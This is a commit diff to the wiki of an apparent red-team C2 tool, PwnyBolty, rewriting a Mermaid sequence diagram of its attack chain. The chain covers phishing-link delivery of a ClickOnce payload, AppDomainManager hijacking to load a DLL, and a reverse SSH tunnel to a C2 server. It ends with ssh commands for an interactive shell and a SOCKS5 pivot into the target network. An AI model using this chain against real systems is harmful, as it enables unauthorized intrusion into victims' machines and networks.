

One commit to mr-rizwan-syed/PwnyBolty changed the sixth of 7 diagrams in WIKI.md. Above: the diagram before and after it, drawn with Mermaid (base theme). The commit also changed other lines of this file, not shown here.

Commit message:
Rewrite WIKI: clearer structure, consistent naming, Key Terms section

````diff
--- a/WIKI.md
+++ b/WIKI.md
@@ -114,39 +159,23 @@
 ```mermaid
 sequenceDiagram
     actor Operator
-    participant UI as PwnyBolty UI
-    participant API as FastAPI
-    participant Builder as BoltholeBuilder
+    participant Caddy as File Server
+    participant Target as Target Machine
     participant C2 as C2 Server
-    participant Target as Target Machine
 
-    Operator->>UI: Configure C2 (ssh_host, ssh_user, ports)
-    UI->>API: POST /api/bolthole/c2
-    API-->>UI: Global outbound keypair generated and stored
+    Operator->>Target: Send phishing link (phish.html)
 
-    Operator->>C2: Run generated c2_setup.sh
-    Note over C2: Creates restricted SSH user<br/>Adds outbound pubkey to authorized_keys<br/>Enables TCP forwarding and GatewayPorts<br/>Opens firewall ports (443, 80, 22, ...)
+    Target->>Caddy: GET payload.application
+    Caddy-->>Target: ClickOnce manifest + all .deploy files
 
-    Operator->>UI: Submit Bolthole build request
-    UI->>API: POST /api/bolthole-build
-    API->>Builder: Spawn BackgroundTask
-
-    Note over Builder: 1. Generate per-build ECDSA operator keypair<br/>2. Generate per-build RSA-2048 boltd host key<br/>3. Embed global outbound key as user_key<br/>4. Template Program.cs (host, ports, delays)<br/>5. msbuild compile Bolthole.dll<br/>6. Package DLL + BoltFiles<br/>7. Write phish.html and c2_setup.sh
-
-    Builder-->>Operator: build/id/ ready (ZIP, operator_key, phish.html, c2_setup.sh)
-
-    Operator->>Target: Deliver phishing link (phish.html)
-    Target->>C2: GET provider_url/payload.application
-    C2-->>Target: ClickOnce deployment manifest
-    Target->>C2: Download all .deploy files
-
-    Note over Target: Microsoft-signed EXE launches<br/>AppDomainManager hijack loads Bolthole.dll<br/>DLL unpacks BoltFiles to temp dir<br/>Starts boltd (SSH daemon on 127.0.0.1:tunnel_port)<br/>Starts boltcon, tries ports 443 → 80 → 22 → ...
+    Note over Target: Microsoft-signed EXE launches<br/>AppDomainManager loads Bolthole.dll<br/>DLL extracts BoltFiles to %TEMP%<br/>Starts boltd on 127.0.0.1:<tunnel_port><br/>Starts boltcon — tries ports 443 → 80 → 22 → ...
 
     Target->>C2: Reverse SSH tunnel established
-    Note over C2: boltd reachable via tunnel_port (31332)<br/>SOCKS5 proxy bound on socks_port (1080)
+    Note over C2: Tunnel port (e.g. 31332) now reachable<br/>SOCKS5 proxy bound on configured socks_port
 
     Operator->>C2: ssh -i operator_key -p 31332 user@c2
-    C2-->>Operator: Interactive shell on Target
-    Operator->>C2: ssh -D local_port (SOCKS5 pivot)
-    C2-->>Operator: Full network access into Target environment
+    C2-->>Operator: Interactive shell on target machine
+
+    Operator->>C2: ssh -D 1080 -i operator_key -p 31332 user@c2
+    C2-->>Operator: SOCKS5 pivot into target network
 ```
````
